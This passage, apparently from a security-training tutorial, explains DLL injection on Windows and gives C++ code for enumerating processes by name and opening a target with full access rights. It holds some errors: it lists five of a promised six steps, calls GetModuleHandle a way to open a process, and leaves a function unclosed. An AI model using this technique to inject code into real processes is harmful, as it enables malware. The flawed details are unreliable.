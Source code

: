 At a high-level DLL injection can be broken up into six steps:

1. Locate a target process to inject.
2. Open the target process.
3. Allocate memory region for malicious DLL.
4. Write the malicious DLL to allocated memory.
5. Load and execute the malicious DLL.

We will break down a basic DLL injector to identify each of the steps and explain in more depth below.

At step one of DLL injection, we must locate a target thread. A thread can be located from a process using a trio of Windows API calls: `CreateToolhelp32Snapshot()`, `Process32First()`, and `Process32Next()`.

```cpp
DWORD getProcessId(const char *processName) {
    HANDLE hSnapshot = CreateToolhelp32Snapshot( // Snapshot the specificed process
			TH32CS_SNAPPROCESS, // Include all processes residing on the system
			0 // Indicates the current process
		);
    if (hSnapshot) {
        PROCESSENTRY32 entry; // Adds a pointer to the PROCESSENTRY32 structure
        entry.dwSize = sizeof(PROCESSENTRY32); // Obtains the byte size of the structure
        if (Process32First( // Obtains the first process in the snapshot
					hSnapshot, // Handle of the snapshot
					&entry // Pointer to the PROCESSENTRY32 structure
				)) {
            do {
                if (!strcmp( // Compares two strings to determine if the process name matches
									entry.szExeFile, // Executable file name of the current process from PROCESSENTRY32
									processName // Supplied process name
								)) { 
                    return entry.th32ProcessID; // Process ID of matched process
                }
            } while (Process32Next( // Obtains the next process in the snapshot
							hSnapshot, // Handle of the snapshot
							&entry
						)); // Pointer to the PROCESSENTRY32 structure
        }
    }

DWORD processId = getProcessId(processName); // Stores the enumerated process ID
```

At step two, after the PID has been enumerated, we need to open the process. This can be accomplished from a variety of Windows API calls: `GetModuleHandle`, `GetProcAddress`, or `OpenProcess`.

```cpp
HANDLE hProcess = OpenProcess(
	PROCESS_ALL_ACCESS, // Requests all possible access rights
	FALSE, // Child processes do not inheret parent process handle
	processId // Stored process ID
);
```
